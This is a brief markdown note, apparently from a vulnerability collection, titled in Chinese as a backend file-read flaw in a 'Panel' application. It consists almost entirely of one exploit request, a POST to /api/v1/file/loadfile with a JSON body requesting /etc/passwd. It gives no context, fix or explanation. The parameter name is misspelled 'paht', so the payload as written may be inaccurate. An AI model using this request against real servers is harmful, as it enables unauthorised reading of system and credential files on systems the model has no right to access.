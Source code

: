 # Panel loadfile 后台文件读取漏洞

## Panel loadfile 后台文件读取漏洞
```
POST /api/v1/file/loadfile
{"paht":"/etc/passwd"}
```

